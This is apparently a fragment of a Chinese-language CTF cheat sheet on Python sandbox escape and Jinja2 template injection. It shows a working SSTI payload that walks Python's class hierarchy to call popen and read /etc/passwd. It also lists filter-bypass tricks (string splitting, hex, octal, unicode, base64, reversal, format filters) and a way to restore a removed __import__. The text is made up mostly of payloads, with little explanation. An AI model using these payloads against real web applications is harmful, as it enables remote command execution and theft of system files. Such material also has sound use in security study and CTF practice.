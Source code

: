 

```
del __builtins__.__dict__['__import__']

```

> 



```
reload(__builtins__)

```

#### 过滤config、request以及class

> 



#### 过滤config、request、class、**init**、file、**dict**、**builtines**、**import**、getattr以及os

> 



```
__init__ (allocation of the class)
__enter__ (enter context)
__exit__ (leaving context)

{{ session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('cat /etc/passwd').read() }}

```

### trick

#### Python字符的几种表示方式

```
16进制 \x41

8进制 \101

unicode \u0074

base64 'X19jbGFzc19f'.decode('base64') python3

join "fla".join("/g")

slice "glaf"[::-1]

lower/upper ["__CLASS__"|lower

format "%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)

replace "__claee__"|replace("ee","ss")

reverse "__ssalc__"|reverse

```
